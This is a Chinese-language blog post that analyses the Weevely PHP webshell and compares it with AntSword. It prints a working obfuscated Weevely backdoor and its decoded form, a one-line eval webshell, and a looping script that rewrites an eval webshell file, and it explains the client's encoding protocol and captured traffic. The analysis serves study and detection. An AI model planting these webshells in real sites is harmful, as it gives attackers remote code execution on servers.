# Weevely_wish


&lt;!--more--&gt;

# 0


通过weevely生成了一个php后门文件

```php
&lt;?php
$u=&#39;){$o8i.=$t{$i}^$k{$j8i};}8i}re8itu8irn $o;}if (@preg8i_m8iatch(&#34;/$k8ih8i(.&#43;)$8ik8if8i/&#34;,@file_get_contents(&#34;p8ihp://8ii8&#39;;
$v=&#39;input&#34;),$m)8i==1) 8i{@o8ib_start()8i;@eva8il8i(@gzuncompre8iss(@x(@8ibas8ie64_de8icode8i($8im[1]8i),8i$k))8i);$o=@ob_ge&#39;;
$h=&#39;t_content8is();@ob8i_end_cle8ia8in();$r=8i@ba8ise8i64_encode(@x(@gzco8impr8ies8is(8i$o),$k));prin8it(8i&#34;$p$kh$r$kf&#34;);}&#39;;
$d=str_replace(&#39;D&#39;,&#39;&#39;,&#39;cDrDeDaDDte_fuDnction&#39;);
$k=&#39;$k)8i{$c=strlen($k)8i;$8il=st8irlen($t);$8i8i8io=&#34;&#34;;for($i=08i;$i&lt;$l;8i){fo8ir($8ij=0;($j&lt;$c&amp;&amp;$i8i&lt;$l);8i$j&#43;8i&#43;,$i&#43;8i&#43;&#39;;
$Y=&#39;$k=&#34;88i8ic319f28&#34;;8i$kh8i=&#34;d81d1527a8i942&#34;8i;$kf=&#34;8e98ia5c2195f5&#34;8i;8i$p=&#34;ZnC8it8iZbYs8iDzbbdvRw&#34;;8ifunction 8ix($t,8i&#39;;
$A=str_replace(&#39;8i&#39;,&#39;&#39;,$Y.$k.$u.$v.$h);
$b=$d(&#39;&#39;,$A);$b();
?&gt;

```
&lt;br&gt;
不算难理解，分解一下：

```php
&lt;?php
//第一部分：
$u=&#39;){$o8i.=$t{$i}^$k{$j8i};}8i}re8itu8irn $o;}if (@preg8i_m8iatch(&#34;/$k8ih8i(.&#43;)$8ik8if8i/&#34;,@file_get_contents(&#34;p8ihp://8ii8&#39;;
$v=&#39;input&#34;),$m)8i==1) 8i{@o8ib_start()8i;@eva8il8i(@gzuncompre8iss(@x(@8ibas8ie64_de8icode8i($8im[1]8i),8i$k))8i);$o=@ob_ge&#39;;
$h=&#39;t_content8is();@ob8i_end_cle8ia8in();$r=8i@ba8ise8i64_encode(@x(@gzco8impr8ies8is(8i$o),$k));prin8it(8i&#34;$p$kh$r$kf&#34;);}&#39;;
$k=&#39;$k)8i{$c=strlen($k)8i;$8il=st8irlen($t);$8i8i8io=&#34;&#34;;for($i=08i;$i&lt;$l;8i){fo8ir($8ij=0;($j&lt;$c&amp;&amp;$i8i&lt;$l);8i$j&#43;8i&#43;,$i&#43;8i&#43;&#39;;
$Y=&#39;$k=&#34;88i8ic319f28&#34;;8i$kh8i=&#34;d81d1527a8i942&#34;8i;$kf=&#34;8e98ia5c2195f5&#34;8i;8i$p=&#34;ZnC8it8iZbYs8iDzbbdvRw&#34;;8ifunction 8ix($t,8i&#39;;
$A=str_replace(&#39;8i&#39;,&#39;&#39;,$Y.$k.$u.$v.$h);

//第二部分
$d=str_replace(&#39;D&#39;,&#39;&#39;,&#39;cDrDeDaDDte_fuDnction&#39;);
$b=$d(&#39;&#39;,$A);
$b();
?&gt;


```

&lt;hr&gt;

&lt;br&gt;

# 第一部分


```php
$k=&#34;8c319f28&#34;;
$kh=&#34;d81d1527a942&#34;;
$kf=&#34;8e9a5c2195f5&#34;;
$p=&#34;ZnCtZbYsDzbbdvRw&#34;;

function x($t, $k) {
    $c = strlen($k);
    $l = strlen($t);
    $o = &#34;&#34;;

    for ($i = 0; $i &lt; $l;) {
        for ($j = 0; ($j &lt; $c &amp;&amp; $i &lt; $l); $j&#43;&#43;, $i&#43;&#43;) {
            $o .= $t{$i} ^ $k{$j};
        }
    }

    return $o;
}

if(@preg_match(&#34;/$kh(.&#43;)$kf/&#34;,@file_get_contents(&#34;php://input&#34;),$m)==1) {
	@ob_start();
	@eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));
	$o=@ob_get_contents();//获取当前缓冲区的内容，并返回缓冲区的数据
	@ob_end_clean();//停止输出缓冲并清空缓冲区的内容，同时关闭输出缓冲区
	$r=@base64_encode(@x(@gzcompress($o),$k));
	print(&#34;$p$kh$r$kf&#34;);}
```


## if

## **&#34;/$kh(.&#43;)$kf/&#34;**

- `()`标记一个子表达式的开始和结束位置。
- `.`匹配除换行符之外的任何单个字符
- `&#43;`匹配前面的子表达式0次或者多次
&lt;br&gt;
写一个例子来理解：
```php
$k = &#39;cr&#39;;
$s = &#39;ke&#39;;

$a = &#39;cream soda you know i like it like that &#39;;

$c = preg_match(&#34;/$k(.&#43;)$s/&#34;, $a, $cc);

var_dump($cc);


/*结果：
array(2) {
  [0] =&gt;
  string(34) &#34;cream soda you know i like it like&#34;
  [1] =&gt;
  string(30) &#34;eam soda you know i like it li&#34;
}
*/
```

&lt;br&gt;

所以整个正则表达式的意思其实是：&lt;i&gt;匹配`$k`开头的`$s`结尾的，中间的任意的字符串&lt;/i&gt;。
&lt;br&gt;
&lt;br&gt;
这其中需要注意的是：`$cc` 存储了两个元素:
&lt;br&gt;
• 第一个元素`$cc[0]`，用来存储按照表达式匹配到的**完整字符串**，也就是***`cream soda you know i like it like`*__，可以看到，和原字符串对比，少了结尾的_that_
&lt;br&gt;
• 第二个元素`$cc[1]`，用来存储**捕获组匹配到的内容**，也就是*`eam soda you know i like it li`_，少了开头的_cr⇒$k*，结尾的_ke⇒$s_
&lt;br&gt;
&lt;hr&gt;


## @file_get_contents

&gt;一个php函数，加上了@隐藏报错
&gt;将 整个文件读入一个字符串

`php://input`是一个只读流， 从请求正文中读取原始数据


合起来意思就是：从请求中读取内容。

&lt;hr&gt;

所以对于第一句条件 `@preg_match**(**&#34;/$kh(.&#43;)$kf/&#34;,@file_get_contents**(**&#34;php://input&#34;**)**,$m**)**==1**)**` ：

- 如果在post请求中匹配到 $kh(.&#43;)$kf ，就存入 $m 中
    
- 然后**ob_start()**
    
    • **ob_start()** 是 PHP 中的一个函数，用于开启输出缓冲。
    
    • 在 PHP 中，当输出到浏览器或者其他输出目标时，通常是立即发送给客户端的。但有时候，我们可能希望先将输出内容暂时存储起来，等待进一步处理或者在某个时机再发送给客户端，这时就可以使用输出缓冲。
    
    •**ob_start()** 函数的作用就是开启输出缓冲。
    
    • 一旦调用了 **ob_start()**，PHP 将会把后续所有的输出都缓冲起来，而不会立即发送到浏览器。
    
    • 当需要将缓冲内容发送到浏览器时，可以使用 **ob_end_flush()** 或者 **ob_flush()** 函数来完成。
    
    • 使用输出缓冲的一个常见场景是，当需要在 PHP 脚本中生成一些输出内容，但又希望在输出之前对其进行处理，比如对输出内容进行压缩、修改或者日志记录等操作时。

&lt;hr&gt;

## function x

&gt;AKA异或操作函数


异或：主要用来判断两个值是否不同

```txt

原始版本
0 ^ 0 = 0 
0 ^ 1 = 1 
1 ^ 0 = 1 
1 ^ 1 = 0 


字符版本
a ^ b ^ c ^ a ^ b 
= a ^ a ^ b ^ b ^ c 
= 0 ^ 0 ^ c 
= c
```


文本串行的每个字符可以通过**与给定的密钥**进行 **按位异或运算**来加密。
如果要解密，只需要将加密后的结果与密钥再次 进行按位异或运算即可。


举例：



- 第一次异或结果：string(10) &#34;一串乱码（bushi）&#34;
- 第二次异或结果：string(10) &#34;wild wagei&#34;

## 剩下的

1. @gzuncompress: 用于解压缩经过gzip压缩的字符串。 
2. @base64_decode: 用于对经过base64编码的数据进行解码。 
3. @base64_encode:对数据进行base64编码。


# 第二部分

```php
$d=str_replace(&#39;D&#39;,&#39;&#39;,&#39;cDrDeDaDDte_fuDnction&#39;);//替换之后得到create_function
$b=$d(&#39;&#39;,$A);
$b();
```

_**`create_function`**_ 是 PHP 中的一个函数，用于动态创建一个匿名函数（lambda 函数）。

通过 **_`create_function**`_ 函数，可以根据传入的参数和代码字符串创建一个匿名函数，并返回一个唯一的函数名。


查了一下[官方手册](https://www.php.net/manual/en/function.create-function.php%EF%BC%89%EF%BC%8C%E5%86%99%E4%BA%86%E4%B8%80%E4%B8%AAdemo%E8%BF%9B%E8%A1%8C%E7%90%86%E8%A7%A3)，写了一个demo进行理解

```php
$newfunc = create_function(&#39;&#39;, &#39;echo &#34;Hello, World!&#34;;&#39;);
$newfunc(); // 输出 Hello, World!

$func = create_function(&#39;$arg1, $arg2&#39;, &#39;&#39;);
$result = $func(1, 2); // 这个调用不会执行任何操作，因为函数体为空
```

所以第一部分就是：
1. 替换之后得到create_function 
2. `$A`作为函数体进行执行
3. 结果存入`$b`
4. `$b`执行


# Weevelt code





- bd：提供后门代码生成模板
- core：核心生成与连接处理代码
- modules：可运行指令的处理模板
- utills：没看
- weevely.py：index文件

&lt;br&gt;

通读是不可能的，所以使用报错找到调用链——修改了生成的后门文件进行连接操作
…………



所以就在图上了。

下面直接写重点函数

&lt;hr&gt;


## 加密obfpost.py


### `__init__(self, url, password)`




将得到的密码参数进行md5，十六进制、小写处理后，得到一个32位的”乱码“
- 前8位作为`shared_key`
- 中间12位作为`header`
- 最后12位作为`trailer`

所以按照这个思路写一个demo

```python
password = &#39;smart&#39;
passwordhash = haslib.md5(password).hexdigest().lower()

shared_key = passwordhash[:8].encode(&#39;utf-8&#39;)
header = passwordhash[8:20].encode(&#39;utf-8&#39;)
trailer = passwordhash[20:32].encode(&#39;utf-8&#39;)
```

得到的结果是
```txt
passwordhash: 8c319f28d81d1527a9428e9a5c2195f5

shared_key: 8c319f28
header: d81d1527a942
trailer: 8e9a5c2195f5
```

回到最开始的生成的后门文件中，
```php
$k=&#34;8c319f28&#34;;
$kh=&#34;d81d1527a942&#34;;
$kf=&#34;8e9a5c2195f5&#34;;
$p=&#34;ZnCtZbYsDzbbdvRw&#34;;//后面会解释是什么
```

可以发现前三个都对应上了。

&lt;hr&gt;


### `send()`






也不算难理解

不过最后一句是关键，也是整个payload的拆解关键
&lt;br&gt;
&lt;br&gt;
提一下第一张图片中的两句
&lt;br&gt;
&lt;br&gt;
&gt;由字符集`string.printable` &lt;i&gt;(包含ASCII 可打印 字符的全部字符，即包括数字、大小写字母、 标点符号和空格)&lt;/i&gt;中的随机字符组成的长度 为 16 的字符串

简单说就是，`PREPEND`和`APPEND`的值都是随机的，长度均为16
&lt;br&gt;
&lt;br&gt;
于是按照第二张图的思路：


&lt;br&gt;
这里的原始payload是`@eval(phpinfo())`
&lt;br&gt;
经过xor、obfuscated、wrappped之后，得到了最后会发送出去的payload。

&lt;hr&gt;

&lt;br&gt;

关于如何发送payload的

`opener = urllib.request.build_opener(*additional_handlers)`：发送payload并获取响应内容


获取到的响应又通过

```python
response = zlib.decompress(
	utils.string.sxor(
		base64.b64decode(matched.group(1)),
		self.shared_key)
)
```

进行解码。

和生成的后门文件一个逻辑。
所以那边也是，接收到payload后，解码并执行，也就是
```php
$d=str_replace(&#39;D&#39;,&#39;&#39;,&#39;cDrDeDaDDte_fuDnction&#39;);
$b=$d(&#39;&#39;,$A);
$b();
```

这部分的意义。


&lt;hr&gt;


# 流量分析

## 攻击者发给受害者

一个编写好的目录遍历命令：



其解码后内容是：
```php
chdir(&#39;xxx\xx&#39;);@error_reporting(0);
$p=&#34;.&#34;;
if(@is_dir($p)){
	$d=@opendir($p);
	$a=arrray();
	if($d){
		while(($f=@readdir($d))) $a[]=$f;
		sort($a);
		print(join(PHP_EOL,$a));	
	}
}

```


ps：这个是`file_ls`功能的代码，不是自己写的。


## 受害者发给攻击者

于是这是返回过来的信息



解码之后得到：





&lt;hr&gt;

&lt;br&gt;


# 番外1-与antisword的对比（easiest version）


## 后门文件

antisword的常用后门就是一句话木马系列

```php
&lt;?php @eval($_REQUEST[&#39;cmd&#39;]); ?&gt;
```

与weeevely的相比：
1. 简洁程度不是一倍两倍
2. 被抓到的容易程度也不是一倍两倍。

## 流量分析


这是抓取的流量中，antisword发送的代码的部分内容




- 流量分析得到antisword发送的 post内容——只是简单的进行了 URL编码 
- 可以看出来是一个对目录进行遍 历以及获取，最后将数据返回的 代码 
- 将进行处理的代码在post中传输， 而weevely是将其写入后门文件
&lt;br&gt;
&lt;br&gt;
返回的流量分析：



&gt;截断符号进行获取数据流， 十六进制转换二进制 
&lt;br&gt;
&lt;br&gt;

比起weevely的异或、base64、 gzip，简洁很多

&lt;br&gt;
解码后：




&lt;hr&gt;

&lt;br&gt;

## 总结


**Weevely**： 完全始祖版本^^ 

&lt;br&gt;
**Antisword**： 
- 后门文件更友好，同时也很容易被识别 (最基础版本) 
- 因为后门中没有特别多涉及处理代码， 所以被发现，也顶多知道攻击者通过这 个后门文件得到了什么，而不是得到其 逆向处理逻辑。


&lt;hr&gt;

&lt;br&gt;

# 番外2-内存马


```php
&lt;?php
set_time_limit(0);
ignore_user_abort(1);
unlink(__FILE___);
while(1){
	$content = &#39;&lt;?php @eval($_POST[&#34;123&#34;]) ?&gt;&#39;;
	file_put_contents(&#34;11.php&#34;, $content);
	usleep(10000);
}
?&gt;
```

一个典型的PHP内存马 
&lt;br&gt;
&lt;br&gt;
与前面的木马对比，最大的 特点和优势就是:
1. 存在于内 存中，不需要文件落地。
2. 这 也意味着很难被查杀。


&lt;hr&gt;

参考

[Weevelywebshelll协议分析文档](https://yaofeifly.github.io/2017/01/13/weevely/)&lt;br&gt;
[weevely  code](https://salsa.debian.org/pkg-security-team/weevely/-/tree/debian/master?ref_type=heads)&lt;br&gt;
[蚁剑流量分析](https://xz.aliyun.com/t/14162?time__1311=mqmx9DBQw%3DY05DI5YK0%3DWS04f2DA2SwD7Kx&amp;alichlgref=https%3A%2F%2Fwww.google.com%2F)


---

> Author:   
> URL: https://66lueflam144.github.io/posts/03215d8/  

